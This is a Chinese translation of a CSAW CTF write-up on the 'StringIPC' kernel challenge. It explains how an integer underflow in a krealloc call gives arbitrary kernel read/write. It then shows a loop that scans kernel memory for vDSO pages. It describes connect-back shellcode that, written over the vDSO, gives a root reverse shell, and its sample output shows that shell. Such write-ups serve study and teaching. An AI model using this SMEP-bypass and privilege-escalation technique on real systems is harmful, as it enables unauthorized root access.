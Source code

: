 ```yaml
---
layout: post
title:  "Bypassing SMEP Using vDSO Overwrites"
date:   2015-11-25 3:30:02
summary: 在今年的CSAW(Cyber Security Awareness Week)决赛中有几个内核相关的挑战。下文是关于我解决题名为"StringIPC"的思路。
categories: translation
---
```


原文地址 [Bypassing SMEP Using vDSO Overwrites](http://itszn.com/blog/?p=21)


By:n3o4po11o

在今年的CSAW(Cyber Security Awareness Week)决赛中有几个内核相关的挑战。下文是关于我解决题名为"StringIPC"的思路。(作者为[Michael Coppola](https://twitter.com/mncoppola))

摆在我们面前的机器为一台64位ubuntu 14.04.3运行了3.13版本的内核并开启SMEP，kptr_restrict，demsg_restrict的虚拟机。内核中加载了名为"StringIPC"的内核模块，但在home目录中提供了该模块的源码。你可以在[这里](https://github.com/mncoppola/StringIPC/blob/master/main.c)找到源码，我也会在下文中展示一些重要的部分。

##分析内核模块

StringIPC模块实现了最基本的进程间通信的功能，允许对位于/dev/csaw的设备在不同通道下进行读写数据的操作。有8个控制码（codes）可以用来对通道进行创建，修改和读写数据。

{% highlight html %}
#define CSAW_IOCTL_BASE     0x77617363
#define CSAW_ALLOC_CHANNEL  CSAW_IOCTL_BASE+1
#define CSAW_OPEN_CHANNEL   CSAW_IOCTL_BASE+2
#define CSAW_GROW_CHANNEL   CSAW_IOCTL_BASE+3
#define CSAW_SHRINK_CHANNEL CSAW_IOCTL_BASE+4
#define CSAW_READ_CHANNEL   CSAW_IOCTL_BASE+5
#define CSAW_WRITE_CHANNEL  CSAW_IOCTL_BASE+6
#define CSAW_SEEK_CHANNEL   CSAW_IOCTL_BASE+7
#define CSAW_CLOSE_CHANNEL  CSAW_IOCTL_BASE+8
{% endhighlight %}

CSAW_ALLOC_CHANNEL允许用户创建一个新通道和根据给定的大小创建一个新缓冲区，CSAW_GROW_CHANNEL和CSAW_SHRINK_CHANNEL使用了krealloc来改变通道的缓冲区大小。CSAW_READ_CHANNEL和CSAW_WRITE_CHANNEL用来读取和写入由CSAW_SEEK_CHANNEL所指向的当前通道的内存数据。最后CSAW_OPEN_CHANNEL和CSAW_CLOSE_CHANNEL用来确定当前与ioctl进行交互的通道。

Bug存在于使用了krealloc的realloc_ipc_channel:
{% highlight html %}
static int realloc_ipc_channel ( struct ipc_state *state, int id, size_t size, int grow )
{
    struct ipc_channel *channel;
    size_t new_size;
    char *new_data;

    channel = get_channel_by_id(state, id);
    if ( IS_ERR(channel) )
        return PTR_ERR(channel);

    if ( grow )
        new_size = channel->buf_size + size;
    else
        new_size = channel->buf_size - size;

    new_data = krealloc(channel->data, new_size + 1, GFP_KERNEL);
    if ( new_data == NULL )
        return -EINVAL;

    channel->data = new_data;
    channel->buf_size = new_size;

    ipc_channel_put(state, channel);

    return 0;
}
{% endhighlight %}

当我们试图缩小通道缓冲区的大小时，我们缩小了一个比原来缓冲区大小还大1的值，此时new_size会发生underflow从而变成了INT_MAX。当krealloc调用时new_size+1，接着发生overflow回到了0。从krealloc的源码可以看出，当new_size为0时，返回一个ZERO_SIZE_PTR：
{% highlight html %}
void *krealloc(const void *p, size_t new_size, gfp_t flags) {
    void *ret;

    if (unlikely(!new_size)) {
         kfree(p);
         return ZERO_SIZE_PTR;
    }
...
{% endhighlight %}
ZERO_SIZE_PTR定义为((void \*)16)。当我们重新调整大小后，channel->data=0x10而channel_buf_size=INT_MAX。通过在0x10处获取偏移量，我们可以在内核空间(kernelspace)实现任意读写。

##任意写利用

既然我们可以任意读写，我们可以开始创建exploit。由于此时SMEP开启，我们不能直接覆盖一些数据然后跳转到用户空间(userspace)去执行已经提前准备好的shellcode。为了绕过SMEP我们可以使用一个覆盖vDSO的技术，来让另外一个进程以root权限运行进而运行我们反弹（conncet-back）shellcode。

整体的思路如下：vDSO同时映射在内核空间以及每一个进程的虚拟内存中，包括那些以root权限运行的进程。通过调用那些不需要上下文切换（context switching）的系统调用可以加快这一步骤(定位vDSO)。vDSO在用户空间(userspace)映射为R/X，而在内核空间(kernelspace)则为R/W。这允许我们在内核空间修改它，接着在用户空间执行。

下面是使用这个技术的步骤：
{% highlight html %}
1.实现任意读写
2.在内核空间定位vDSO
3.为root权限运行的进程创建反弹shellcode
4.用shellcode覆盖部分vDSO
5.监听反弹root shell
{% endhighlight %}
在我们利用StringIPC模块时，我们已经能够任意读写内存了，所以下一步我们将在runtime定位vDSO.

##Locating vDSO

下面是内核代码中用于在内核空间初始化vDSO页的代码段：

{% highlight html %}
static int __init init_vdso_vars(void) {
    int npages = (vdso_end - vdso_start + PAGE_SIZE - 1) / PAGE_SIZE;
    int i;
    char *vbase;
    vdso_size = npages << PAGE_SHIFT;
    vdso_pages = kmalloc(sizeof(struct page *) * npages, GFP_KERNEL);
    if (!vdso_pages)
        goto oom;
    for (i = 0; i < npages; i++) {
        struct page *p;
        p = alloc_page(GFP_KERNEL);
        if (!p)
            goto oom;
        vdso_pages[i] = p;
        copy_page(page_address(p), vdso_start + i*PAGE_SIZE);
    }
    vbase = vmap(vdso_pages, npages, 0, PAGE_KERNEL);
...
{% endhighlight %}
所以在内核空间中通过alloc_page分配了vDSO页，并且指针保存在了vdso_pages数组中。只有少数的几种方法能够定位这些页。如果能够读取/proc/kallsyms，你将能够通过vdso_pages直接获取这些地址。然而，这种情况在这次比赛不适用。第二种方法则是在内核空间中搜寻每一个页的开头，看是否有ELF头也出现了部分vDSO的映射。我们可以通过vDSO的标志(signatures)进一步缩小这些页的范围。下面是实现这个思路的代码：

{% highlight html %}
void* header = 0;
void* loc = 0xffffffff80000000;
size_t i = 0;
for (; loc<0xffffffffffffafff; loc+=0x1000) {
    readMem(&header,loc,8);
    if (header==0x010102464c457f) {
        fprintf(stderr,"%p elf\n",loc);
        readMem(&header,loc+0x270,8);
        //Look for 'clock_ge' signature (may not be at this offset, but happened to be)
        if (header==0x65675f6b636f6c63) {
            fprintf(stderr,"%p found it?\n",loc);
            break;
        }
    }
}
{% endhighlight %}
现在我们找到了vDSO所在的区域，我们就能用shellcode来覆盖它。

##反弹shellcode

此处用到的反弹shellcode和常见的x86-64 shellcode差不多，但有几个修改的地方。第一个修改为：只为root进程创建反弹shell。因为每一个调用gettimeofday的进程都会触发我们的shellcode，我们不需要那些没有root权限的进程的shell权限。我们可以通过调用 0x66(sys_getuid)系统调用并将其与0进行比较。如果没有root权限，我们继续调用0x66(sys_gettimeofday)系统调用，所以其他没有不相关的进程也不会受到太多影响。但同样在root进程当中，我们不想造成更多的问题，我们将通过0x39系统调用 fork一个子进程，父进程继续执行sys_gettimeofday，而由子进程来执行反弹shell。

我所使用的shellcode的汇编代码可以在[这里](https://gist.github.com/itsZN/1ab36391d1849f15b785)。它将连接到127.0.0.1:3333并执行"/bin/sh"

我们要做的最后一件事则是，dump vDSO并在gettimeofday所在的偏移处检查。只要我们知道我们可以在这个位置覆盖上shellcode，我们就可以在这等待某个进程进行调用。我设置了一个简单的cron任务来完成这个任务(root进程调用gettimeofday)。我最后的代码可以在[这里](https://gist.github.com/itsZN/20144eb7beefbc301bcf)找到。下面是程序运行的情况：

{% highlight html %}
csaw@team7:~$ id
uid=1000(csaw) gid=1000(csaw) groups=1000(csaw)
csaw@team7:~$ ./a.out 
allocate fd: 3 ret: 0 id:1
Shrink: 0 err:0
ZERO_SIZED_POINTER = 0x10
0xffffffff817bc000 elf
0xffffffff817d1000 elf
0xffffffff81b6c000 elf
0xffffffff81b9e000 elf
0xffffffff81c03000 elf
0xffffffff81c03000 found it?
Listening on [0.0.0.0] (family 0, port 3333)
Connection from [127.0.0.1] port 3333 [tcp/*] accepted (family 2, sport 58568)
id
uid=0(root) gid=0(root) groups=0(root)
{% endhighlight %}

##Final Notes

vDSO不是唯一一个同时映射在内核空间和用户空间的内存。在x86-64当中,vSYSCALL与vDSO实现类是的功能，但多了一点特性就是每次重启都在同一个位置（可能可以通过内核版本进行预测）。然而 kernel.vsyscall64并没有在本次比赛启用，所以我们将通过vDSO来完成这个目的。如果vm.vdso_enable设置为0，then vDSO will also be bypassed and the libc wrappers will default to the normal syscalls. 

vDSO/vSYSCALL overwriting是一个非常有用的技术，它能够用在对于中断内容(interrupt context)的利用，因为它不需要本地进程来映射一段内存，或者提升权限。

在解决这个问题当中本文提到的解决思路也不是唯一的，另外一个解决思路可以在[这里](https://github.com/mncoppola/StringIPC/blob/master/solution/solution.c)找到
